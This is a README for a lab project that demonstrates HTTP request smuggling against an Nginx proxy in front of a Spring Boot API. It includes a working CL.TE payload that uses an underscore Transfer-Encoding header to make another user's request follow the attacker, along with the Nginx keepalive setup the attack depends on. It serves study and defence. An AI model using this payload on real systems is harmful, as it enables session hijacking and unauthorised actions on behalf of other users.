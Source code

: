 # Http Smuggling Demo Project (Nginx + Spring)
### This project is intend to
- To study the behaviours of Http Smuggling Attack on a FE + BE application combination.
- To understand what are the pre-conditions of a system setup that potentially exploit-able

### Project Structure
#### http-smuggler-application
- acts as Back End Service. typical spring boot application
- simple rest API to simulate the scenario of
    - login
    - users/me
    - users?follow=${name}
#### nginx
- acts as Front End Service (LB|Proxy|ReversedProxy)
- uses nginx lua module to perform `http headers normalization` that converts invalid headers that consist of `_` to `-`
- It is almost impossible to perform `http headers normalization` on sensitive/builtin headers with nginx lua module, hacks have been done in order to achieve it
#### http-smuggler-gateway
- tries to reproduce using a Spring Gateway + Spring Boot approach
- It is almost impossible to realise where
    - Spring Gateway will throw error where filter headers have both CL and TE [link](https://github.com/spring-cloud/spring-cloud-gateway/blob/59cba504509ee807ab5c6be01ba46c20b034cd8f/spring-cloud-gateway-server/src/main/java/org/springframework/cloud/gateway/filter/NettyRoutingFilter.java#L168-L175).
    - Requires a keep alive socket connection between the two (yet to be POCed)

### Demo Flow
To simulate user impersonate attack using Http Smuggling Attack. Execute the request payload in the burp suite application (repeater)

- Two demo users, `bob | pwd` and `alice | pwd`
- `alice` login to the application, and be return with a sessionId
```
POST /v1/login HTTP/1.1
Accept: */*
Cache-Control: no-cache
Host: localhost
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

username=alice&password=pwd
```

- Uses the sessionId, alice retrieves her information using `v1/users/me` api
```
GET /v1/users/me HTTP/1.1
Authorization: ${sessionId}
Accept: */*
Cache-Control: no-cache
Host: localhost
Accept-Encoding: gzip, deflate
```

- bob performs CLTE Http Smuggling Attack from the login API
```
POST /v1/login HTTP/1.1
Content-Type: application/json
Accept: */*
Cache-Control: no-cache
Host: localhost
Connection: keep-alive
Content-Length: 89
Transfer_Encoding: chunked

23
{"username":"bob","password":"pwd"}
0

PUT /v1/users/follow?user=bob HTTP/1.1
X:X
```
- On the next `users/me` query, alice's request will be smuggled and resulting in following bob `PUT /v1/users/follow?user=bob`, result can be observed from the response payload.

### Explanation
- The invalid header `Transfer_Encoding` will be normalised at the proxy layer to a valid `Transfer-Encoding` header when it passes to application layer
- As `Transfer-Encoding` has higher precedence than `Content-Length`, a desync is happened where FE uses `Content-Length` but BE uses `Transfer-Encoding`
- As the `Transfer-Encoding`'s payload is much shorter, the application layer will think the payload ends at the 0, and will threat the follow `PUT /v1 ***` request as the next request
- when the victim request comes in (alice), the application will process the request as the below, and results in performing `/v1/users/follow?user=bob` instead of `/v1/users/me`
```
PUT /v1/users/follow?user=bob HTTP/1.1
X:XGET /v1/users/me HTTP/1.1 // silence the request URL part
Authorization: ${sessionId}
Accept: */*
Cache-Control: no-cache
Host: localhost
Accept-Encoding: gzip, deflate
```

### Experiment Findings
Two conditions to meet for a success Http smuggling
- Make use of the variant of CL & TE headers to trick payload mismatch between FE and BE
- The connection between FE & BE must be `Http 1.1 with persistent connection | connection reuse | keepalive`  where multiple HTTP requests are sent on a single TCP connection
- To configure Nginx to perform `http persistent connection`
```
upstream application {
  server localhost:9090;
  keepalive 16;
}

proxy_set_header Connection "";
proxy_http_version 1.1;

```

### Additional Dev Notes
#### Setup Burp Suite on Firefox
- Burp Suite is suitable to send HTTP request with Transfer-Encoding = chunked
- by default, localhost | 127.0.0.1 won't forward traffic to proxy server
- to enable it, go  to tab `about:config` then look for `network.proxy.allow_hijacking_localhost`. [(reference)](https://security.stackexchange.com/a/211555/224446)
